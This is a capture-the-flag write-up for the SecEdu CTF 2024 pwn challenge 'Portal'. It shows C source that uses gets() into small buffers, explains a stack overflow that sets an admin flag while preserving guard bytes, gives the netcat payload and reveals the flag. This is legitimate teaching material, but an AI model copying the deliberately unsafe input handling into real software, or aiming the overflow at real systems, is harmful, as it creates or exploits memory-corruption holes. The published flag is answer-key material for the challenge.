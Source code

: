 ```yaml
---
title: "Portal"
description: "They've given us one of their programs running in the background to us. Let's hope it's not insecure!! (or in your case, that it's not secure instead ;) )\n\n`nc chals.secedu.site 5000`"
pubDate: 2024-09-12
ctf: "SecEdu CTF 2024"
category: "pwn"
author: "sealldev & tulip"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```




We were given this source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int checkIfA(char *username, char *password);
void printFile();

int main() {
    int admin = 0;
    char protect[] = {'\0', 'A'};
    char username[10];
	char password[5];

    printf("This is the company's employee portal.\n");
    printf("---------------------------------------------\n");
	printf("Please enter your name:\n");
    gets(username);
    printf("Please enter your password:\n");
    gets(password);


    if (strcmp(username, "AAAAAAAAAA") == 0 || strcmp(password, "AAAAA") == 0) {
        printf("What a strange username or password!\n");
        return 1;
    }

    if (admin != 0 && protect[0] == '\0' && protect[1] == 'A') {
        printf("Welcome admin!\n");
        printFile();
        return 0;
    }

    printf("Employee not found!\n");
    return 1;
}

void printFile() {
    FILE *file = fopen("flag.txt", "r");
    int c;
    while ((c = fgetc(file)) != EOF) { fputc(c, stdout); }
    fclose(file);
}
```

We can see that the `admin` variable is initially `0`, there are two `protect` values of `\0` and `A`, and there is a set limit on the `username` and `password` (10 and 5 respectively).

The check then checks if the `username` matches `AAAAAAAAAA` or the `password` matches `AAAAA`, if it does, it exits the program.

The next check is for if the user is an admin:
- The `admin` value needs to be a non-0 value
- The `protect[0]` must be `\0`
- The `protect[1]` must be `A`

That's, it...?

We can do a Buffer Overflow to break this challenge.

The `strcmp` is only checking for an **exact match**, so we could use `B`'s or `a`'s or anything but `A`'s.

We can then overflow to rewrite the `admin` value, but we need to preserve the values of `protect`.

So, we can start with the overflow: `bbbbbbbbbb`, then add the protect values `\0` and `A`, then changing `admin` to a `1`.

The value is `bbbbbbbbbb\0A1`, we can inject the NULL value to netcat with `CTRL+SHIFT+2`, we can then ignore the password value as its never used apart from the `strcmp` check.

```
$ nc chals.secedu.site 5000
This is the company's employee portal.
---------------------------------------------
Please enter your name:
bbbbbbbbbb^@A1
Please enter your password:

Welcome admin!
```

Flag: `SECEDU{por74l_to_n0wh3r3}`